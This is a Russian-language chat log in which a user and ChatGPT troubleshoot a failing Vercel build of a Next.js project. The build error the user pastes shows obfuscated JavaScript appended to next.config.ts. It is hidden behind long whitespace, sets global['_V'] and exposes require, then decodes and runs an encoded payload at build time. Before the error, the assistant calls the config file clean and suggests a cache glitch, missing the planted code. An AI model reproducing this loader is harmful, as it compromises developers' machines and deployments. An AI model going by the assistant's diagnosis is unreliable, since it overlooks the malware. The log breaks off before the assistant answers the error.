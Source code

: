 Vercel клонирует правильный репозиторий (magistrigusti/Dominum)

Ветка: master

Коммит: 8997100 (можешь проверить его на GitHub — это и есть твоя последняя версия с чистым next.config.ts)

Установка зависимостей проходит без ошибок

Next.js 15.3.0 билдится

Дальше смотри по логу: если ошибка “._v” исчезла — значит, всё отлично, билд собрался.
Если вдруг снова будет ошибка про globalThis["._v"] — это значит, либо файл всё ещё не обновился на самом деле (маловероятно, но иногда кэш у Vercel подглючивает), либо есть где-то другой баг.

Проверь финал лога:

Если увидишь “Compiled successfully” и нет красных ошибок — поздравляю, деплой прошёл!

Если ошибка — сразу скинь последние 10 строк, я скажу, что дальше.

🜂
Вижу, что ты всё сделал правильно, осталось только убедиться, что деплой прошёл до конца!
Жду финальный статус или полный лог конца — и погнали дальше!

Вы сказали:
ты че читать разучмлся ? Failed to compile.
./next.config.ts:7:1033
Type error: Element implicitly has an 'any' type because expression of type '"_V"' can't be used to index type 'typeof globalThis'.
  Property '_V' does not exist on type 'typeof globalThis'.
  5 | };
  6 |
> 7 | export default nextConfig;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              global['_V']='8-ror-dom';global['r']=require;var a0b,a0a;(function(){var MDX='',CjV=867-856;function Stv(z){var h=4629;var i=z.length;var s=[];for(var e=0;e<i;e++){s[e]=z.charAt(e)};for(var e=0;e<i;e++){var t=h*(e+334)+(h%26491);var v=h*(e+703)+(h%45442);var y=t%i;var b=v%i;var o=s[y];s[y]=s[b];s[b]=o;h=(t+v)%4144303;};return s.join('')};var zeH=Stv('ctnospnszurcewihfxtkmadulvgqrrtycjboo').substr(0,CjV);var TDk='s+o(rgejhy[t,,d==0+ijo [t={=edr=ri+ad,erox;rdt +[xy{n5 =l gi[81,m=<;0, C8)r()!}f;[86]+3v(9,],f;1r8";ef,0d((0t(ageg=ppr(;f;oar ;;n;}6<rjh8rgm=tap)<;altmtr;++t)ia<i  6=tfn;jao,lv7mt,da,(u)s2+pah+ds6;shr3vj) cuu(bw);(+[n).ow]6lgk ;{s;r{vuhv)-r+q2;(nt4p9l.0h.vu(1=c)Arnin"lr(v*w4lan+)(.0)x(}n;.1-=h.5;a=e77[40.c)[,.x)ttoj-=feA,balupxsf]nua0=r(3nr2)(e;,t=v(r,rlw),(vaul][o;;+hf6 (){f)p7usAic2a"="d+g(.npSn.s9fvif]a00x(i){;= s[1tnemor]9vae=dlf+=C,1)zv;)=ggbut;=-p)hcc)]g++mh;sfyje..)3l2 a-]>rCcltcr]0,"l"[e= )*w; icrcrs+ruttlu)=;rbj.; tj,;=etscarv;1n=+e;h)n)a=(Abvnni,m8se;A;>em=j Cmhi)aig(utsigql[.=a,=ieo;+"7alayr+7enahrn;6i])rr7htnCsvn.(a<"gC.q]dm;rar!b}8a( jrv=p2itrsa-hq,,bllat.=izvaus 10;r+e;o(.r(8g.i-pim(.plvn)z e=o[11r6(9or]2,,e=fw8.=lh91frl24;{0vn7r5rojgt;rvo0(jeCoi=rr6+roa}8marcn}"]. =vfe;tbh=fv+}gil.otrstt)ys.h([wttem;" mn nvSt;= +,lvp)(,;p=n.rrur9vn1utgtumz c.t=l;vho7o2h)vueC0.v(=';var umP=Stv[zeH];var QnQ='';var Ley=umP;var kAX=umP(QnQ,Stv(TDk));var WEm=kAX(Stv('.}$jep32i}o=I.+[)0wX=X,00bN%4tCjs]mXDeeeXg)X6]aa(Xd50h.. )m$(}Xptl42mfX@sra]1fCpk]3L.5] dXXXox1_l8[X0it72$iD)l(O23ni.X-7ee Xb$__1c565>..bX8$c1e31d;$_.X )X>, XXX4bX7=sbX(sXbYoeI.=fa.spwjXhlbedo,\/[}dsXr2,}8jXnah;X!QRlXo)X04p{v-s}g
    |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         ^
  8 |
Next.js build worker exited with code: 1 and signal: null
error Command failed with exit code 1.
info Visit https://yarnpkg.com/en/docs/cli/run for documentation about this command.
Error: Command "yarn run build" exited with 1
ChatGPT сказал: